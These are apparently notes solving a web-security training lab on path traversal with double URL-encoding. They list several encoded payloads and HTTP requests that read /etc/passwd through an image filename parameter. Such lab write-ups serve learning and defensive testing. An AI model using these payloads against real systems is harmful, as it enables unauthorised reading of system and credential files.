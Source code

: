 # File path traversal, traversal sequences stripped with superfluous URL-decode

## This lab contains a [file path traversal]() vulnerability in the display of product images.

## The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

## To solve the lab, retrieve the contents of the `/etc/passwd` file.

../../../etc/passwd ==> ..%2F..%2F..%2Fetc%2Fpasswd

..%252F..%252F..%252Fetc%252Fpasswd //ctrl +u

../../../etc/passwd ==> %2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd // ctrl + u

---

### step 1

GET /image?filename=16.jpg HTTP/1.1

### step2

GET /image?filename=..%252F..%252F..%252Fetc%252Fpasswd

test in repeater once successfull try on main intercept url
